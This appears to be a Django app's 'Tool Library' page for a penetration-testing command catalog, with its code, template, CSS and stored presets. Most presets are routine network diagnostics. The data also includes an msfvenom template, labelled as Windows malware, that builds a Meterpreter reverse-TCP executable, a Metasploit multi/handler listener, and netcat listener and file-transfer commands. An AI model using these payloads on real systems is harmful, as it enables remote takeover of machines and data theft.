

/library/ (upper part), run on the app's committed database (2 pictures, top to bottom).
### zxui/models.py (models this page shows, shortened)
class Tool(models.Model):
    name = models.CharField(max_length=80, unique=True)
    description = models.TextField(blank=True)
    created_at = models.DateTimeField(auto_now_add=True)
    updated_at = models.DateTimeField(auto_now=True)
    class Meta:
        ordering = ['name']

class CommandTemplate(models.Model):
    tool = models.ForeignKey(Tool, on_delete=models.CASCADE, related_name='commands')
    name = models.CharField(max_length=120)
    description = models.TextField(blank=True)
    template = models.TextField()
    category = models.CharField(max_length=60, blank=True, default='')
    tags = models.JSONField(default=list)
    created_at = models.DateTimeField(auto_now_add=True)
    updated_at = models.DateTimeField(auto_now=True)
    class Meta:
        ordering = ['name']
        unique_together = ('tool', 'name')

### zxui/views.py (the view)
# urls.py: path('library/', library, name='library'),
def library(request):
    tools, tools_payload = _build_tools_context()
    context = {
        'active_page': 'library',
        'page_title': 'Library',
        'tools': tools,
        'tools_payload': tools_payload,
    }
    return render(request, 'zxui/library.html', context)

### zxui/views.py (called while the page is built)
def _build_tools_context():
    tools = Tool.objects.prefetch_related('commands').all()
    tools_payload = []
    for tool in tools:
        commands_payload = []
        for cmd in tool.commands.all():
            commands_payload.append(
                {
                    'id': cmd.id,
                    'name': cmd.name,
                    'description': cmd.description,
                    'template': cmd.template,
                    'category': cmd.category,
                    'tags': cmd.tags,
                }
            )
        tools_payload.append(
            {
                'id': tool.id,
                'name': tool.name,
                'description': tool.description,
                'commands': commands_payload,
            }
        )
    return tools, tools_payload

### templates/zxui/library.html (shortened to what this page needs)
{% extends "base.html" %}
{% block content %}
  <div class="page-header" data-animate>
    <div class="section-title">Library</div>
    <h1 class="section-heading">Tool Library</h1>
    <p class="section-subtitle">Filter, inspect, and reuse command presets.</p>
  </div>
  <section class="panel catalog" data-animate>
    <div class="panel-header">
      <h2 class="glow">Preset Catalog</h2>
      <p>Track available presets and keep the operator playbook clean.</p>
    </div>
    <div class="library-controls">
      <label>
        Search
        <input type="text" id="library-search" placeholder="Tool, command, or template">
      </label>
      <label>
        Category
        <select id="category-filter">
          <option value="">All categories</option>
        </select>
      </label>
    </div>
    {% if tools %}
      <div class="tool-list">
        {% for tool in tools %}
          <div class="tool-card" data-tool-name="{{ tool.name }}">
            <div class="tool-header">
              <div class="tool-title">{{ tool.name }}</div>
              <div class="tool-count">{{ tool.commands.count }} commands</div>
            </div>
            {% if tool.description %}
              <p class="tool-desc">{{ tool.description }}</p>
            {% endif %}
            <ul>
              {% for command in tool.commands.all %}
                <li
                  data-command-name="{{ command.name }}"
                  data-command-template="{{ command.template }}"
                  data-command-description="{{ command.description }}"
                  data-command-category="{{ command.category }}"
                  data-command-tags="{{ command.tags|join:', ' }}"
                >
                  <span class="command-name">{{ command.name }}</span>
                  <span class="command-template">{{ command.template }}</span>
                  {% if command.category or command.tags %}
                    <span class="command-meta">
                      {% if command.category %}Category: {{ command.category }}{% endif %}
                      {% if command.tags %}
                        {% if command.category %} · {% endif %}Tags: {{ command.tags|join:", " }}
                      {% endif %}
                    </span>
                  {% endif %}
                </li>
              {% empty %}
                <li class="muted">No commands yet.</li>
              {% endfor %}
            </ul>
          </div>
        {% endfor %}
      </div>
    {% else %}
      <div class="empty-state">
        <h3>No tools yet</h3>
        <p>Add your first tool and command presets in Manage.</p>
      </div>
    {% endif %}
  </section>
{% endblock %}

### static/zxui/styles.css (style rules this page uses)
:root { --sidebar-width: 250px; --accent: #39ff14; --bg: #0b0f0c; --surface: rgba(17, 27, 21, 0.85); --surface-2: rgba(7, 12, 10, 0.75); --text: #e6ffe6; --muted: rgba(230, 255, 230, 0.65); --border: rgba(57, 255, 20, 0.2); --border-soft: rgba(57, 255, 20, 0.12); --shadow: 0 0 24px rgba(0, 0, 0, 0.4); --glow: 0 0 12px rgba(57, 255, 20, 0.5); }
*, *::before, *::after { box-sizing: border-box; }
body { margin: 0; min-height: 100vh; font-family: 'Space Grotesk', sans-serif; color: var(--text); background: radial-gradient(circle at 20% 20%, rgba(57, 255, 20, 0.08), transparent 40%), radial-gradient(circle at 80% 10%, rgba(57, 255, 20, 0.04), transparent 30%), var(--bg); }
.content [id] { scroll-margin-top: 90px; }
.panel, .card { background: var(--surface); border: 1px solid var(--border); border-radius: 16px; padding: 20px; box-shadow: var(--shadow); position: relative; overflow: hidden; }
.panel::before, .card::before { content: ""; position: absolute; inset: 0; border-radius: 16px; border: 1px solid rgba(57, 255, 20, 0.08); pointer-events: none; }
.panel::after, .card::after { content: ""; position: absolute; width: 36px; height: 36px; right: 14px; top: 14px; border-top: 1px solid rgba(57, 255, 20, 0.35); border-right: 1px solid rgba(57, 255, 20, 0.35); opacity: 0.6; pointer-events: none; }
.panel-header h2, .panel-header h3, .panel h2, .panel h3 { margin: 0; font-family: 'Share Tech Mono', monospace; letter-spacing: 0.08em; }
.page-header { display: grid; gap: 12px; margin-bottom: 18px; }
.section-title { font-family: 'Share Tech Mono', monospace; letter-spacing: 0.2em; text-transform: uppercase; font-size: 12px; color: var(--accent); }
.section-heading { font-size: 26px; margin: 0; text-shadow: var(--glow); }
.section-subtitle { margin: 0; color: var(--muted); }
.panel-header p { margin: 8px 0 0; color: var(--muted); font-size: 14px; }
label { display: grid; gap: 8px; font-size: 12px; letter-spacing: 0.12em; text-transform: uppercase; color: var(--muted); }
input, select, textarea { width: 100%; padding: 10px 12px; border-radius: 10px; border: 1px solid rgba(57, 255, 20, 0.2); background: rgba(7, 12, 10, 0.8); color: var(--text); font-family: 'Space Grotesk', sans-serif; font-size: 14px; }
.tool-list { display: grid; gap: 18px; margin-top: 18px; list-style: none; padding: 0; margin-left: 0; margin-right: 0; }
.library-controls { display: grid; grid-template-columns: repeat(auto-fit, minmax(200px, 1fr)); gap: 16px; margin-top: 16px; }
.tool-card { display: block; padding: 16px; border-radius: 16px; border: 1px solid rgba(57, 255, 20, 0.2); background: rgba(7, 12, 10, 0.7); }
.tool-header { display: flex; justify-content: space-between; align-items: baseline; }
.tool-title { font-family: 'Share Tech Mono', monospace; font-size: 18px; }
.tool-count { font-size: 11px; color: var(--muted); text-transform: uppercase; letter-spacing: 0.1em; }
.tool-desc { color: var(--muted); font-size: 14px; margin: 6px 0 10px; }
.tool-card ul { list-style: none; padding: 0; margin: 0; display: grid; gap: 10px; }
.tool-card li { display: grid; gap: 4px; padding: 10px; border-radius: 10px; background: rgba(7, 12, 10, 0.6); }
.command-name { font-size: 12px; letter-spacing: 0.12em; text-transform: uppercase; color: var(--accent); font-family: 'Share Tech Mono', monospace; }
.command-template { font-size: 12px; color: var(--muted); word-break: break-all; }
.command-meta { font-size: 11px; color: var(--muted); }
.glow { text-shadow: var(--glow); }
[data-animate] { opacity: 0; transform: translateY(18px); transition: opacity 0.7s ease, transform 0.7s ease; }
[data-animate].visible { opacity: 1; transform: translateY(0); }

### data on the page
Tool: name "MSF-Venome", commands.count "1"
CommandTemplate: name "MALWARE FOR WINDOWS", template "msfvenom -p windows/meterpreter/reverse_tcp LHOST={lhost} LPORT={lport} -f exe > {file}.exe", category "Multi Habdler, msfconsole, windows, linux", tags "Multi Habdler, msfconsole, windows, linux"
Tool: name "MSFconsole", commands.count "1", description "msfconsole is the primary command-line interface (CLI) for the Metasploit Framework, an open-source platform used for penetration testing, vulnerability research, and executing exploit code. It is the most popular and stable way to interact with the framework's various tools and modules"
CommandTemplate: name "MULTI HANDLER (WINDOWS)", template "use exploit/multi/handler set LPORT {lport} set LHOST {lhost} set payload windows/meterpreter/reverse_tcp show options run", category "Multi Habdler, msfconsole, windows, linux", tags "msfconsole, Multi Handler"
Tool: name "arp", commands.count "1", description "ARP table inspection."
CommandTemplate: name "ARP TABLE", template "arp -a", category "Network", tags "windows, linux, macos"
Tool: name "curl", commands.count "3", description "HTTP client for quick requests and header checks."
CommandTemplate: name "GET REQUEST", template "curl -s {target}", category "HTTP", tags "http, safe"
CommandTemplate: name "HEAD REQUEST", template "curl -I {target}", category "HTTP", tags "http, headers"
CommandTemplate: name "POST REQUEST", template "curl -X POST {target}", category "HTTP", tags "http, post"
Tool: name "dig", commands.count "2", description "DNS lookup utility."
CommandTemplate: name "A RECORD LOOKUP", template "dig A {domain} +short", category "DNS", tags "dns, safe"
CommandTemplate: name "MX RECORD LOOKUP", template "dig MX {domain} +short", category "DNS", tags "dns"
Tool: name "host", commands.count "2", description "DNS lookup utility with record types."
CommandTemplate: name "ALL RECORDS", template "host -a {domain}", category "DNS", tags "dns"
CommandTemplate: name "LOOKUP", template "host {domain}", category "DNS", tags "dns, safe"
Tool: name "ifconfig", commands.count "1", description "Unix network interface configuration tool."
CommandTemplate: name "ALL INTERFACES", template "ifconfig -a", category "Network", tags "linux, macos"
Tool: name "ip", commands.count "2", description "Linux network configuration utility."
CommandTemplate: name "IP ADDRESSES", template "ip addr show", category "Network", tags "linux"
CommandTemplate: name "ROUTES", template "ip route show", category "Network", tags "linux"
Tool: name "ipconfig", commands.count "2", description "Windows IP configuration utility."
CommandTemplate: name "DNS CACHE", template "ipconfig /displaydns", category "Network", tags "windows, dns"
CommandTemplate: name "FULL CONFIG", template "ipconfig /all", category "Network", tags "windows"
Tool: name "netcat", commands.count "7", description "Networking utility for TCP/UDP checks and listeners."
CommandTemplate: name "LISTEN FOR TCP", template "nc -lvnp {port}", category "Utility", tags "listener"
CommandTemplate: name "LISTENER", template "nc -lvnp {lport}"
CommandTemplate: name "RECEIVE FILE", template "nc -lvnp {port} > {file}", category "Utility", tags "transfer"
CommandTemplate: name "SEND FILE", template "nc {target} {port} < {file}", category "Utility", tags "transfer"
CommandTemplate: name "TCP CONNECT", template "nc -v {target} {port}", category "Connectivity", tags "safe, tcp"
CommandTemplate: name "TCP PORT CHECK", template "nc -vz {target} {port}", category "Connectivity", tags "tcp, ports"
CommandTemplate: name "UDP PORT CHECK", template "nc -vu {target} {port}", category "Connectivity", tags "udp, ports"
Tool: name "netstat", commands.count "2", description "Network statistics and connections."
CommandTemplate: name "ACTIVE CONNECTIONS (WINDOWS)", template "netstat -ano", category "Network", tags "windows"
CommandTemplate: name "LISTENING PORTS (LINUX)", template "netstat -tulpen", category "Network", tags "linux"

### other printed values
{{ page_title|default:"Command Studio" }} "Library"
